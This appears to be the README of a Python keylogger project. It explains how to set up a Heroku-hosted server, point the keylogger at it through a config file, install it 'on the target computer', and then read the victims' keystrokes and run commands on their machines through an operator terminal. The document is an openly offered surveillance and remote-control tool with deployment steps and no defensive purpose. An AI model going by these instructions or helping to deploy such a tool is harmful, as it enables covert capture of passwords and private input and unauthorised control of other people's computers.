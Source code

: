 # Keylogger

Keylogger created in Python. This application not only captures the keys like any other Keylogger, but also has the 
functionality to execute commands on the target computer and more.

# Getting Started:

**Requirements:**

- Python 3
- Dependencies installed

To install the dependencies, type the command: `pip install -r requirements.txt`

After that, start the server at `server/flask/server.py` or `server/express/server.js` ( both are configured 
to run on Heroku ).

# Setting and running keylogger:

Open the `app/config/config.json` file and enter the server URL in the **host** key. See the example below:
```
{
    "host": "https://keylogger-app-37456.herokuapp.com"
}
```

Once configured, install the **keylogger** on the target computer and run. After that, all the keys pressed by the 
user will be read and sent to the server and the application will be ready to receive and execute your commands.

# Getting the keys and executing commands:

To read keys and execute commands on the target computer, run `app/terminal.py` and select a user using
the `select` command. See the example below:

```
In: users

John Gamer
KatarinaMid_273
Victor34

In: select KatarinaMid_273
In: keylogger
```

Type `help` to see all available commands.
